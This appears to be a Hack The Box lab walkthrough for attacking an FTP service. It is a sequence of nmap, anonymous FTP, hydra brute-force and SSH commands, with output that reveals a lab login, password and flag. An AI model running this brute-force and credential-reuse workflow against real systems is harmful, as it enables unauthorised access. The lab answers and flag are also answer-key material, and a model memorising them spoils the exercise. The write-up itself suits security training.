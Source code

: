 # FTP

### What port is the FTP service running on?

```bash
nmap -sV 10.129.203.6
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain      ISC BIND 9.16.1 (Ubuntu Linux)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
2121/tcp open  ftp
```

2121

### What username is available for the FTP server?

```bash
ftp 10.129.203.6 2121
Name (10.129.203.6:kali): anonymous
get passwords.list
get users.list
```

now we got wordlists, lets brute force it with hydra

```bash
hydra -L users.list -P passwords.list ftp://10.129.203.6:2121 -t 64 
[2121][ftp] host: 10.129.203.6   login: robin   password: 7iz4rnckjsduza7
```

robin

### Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.

```bash
ssh robin@10.129.203.6    
cat flag.txt
HTB{ATT4CK1NG_F7P_53RV1C3}
```
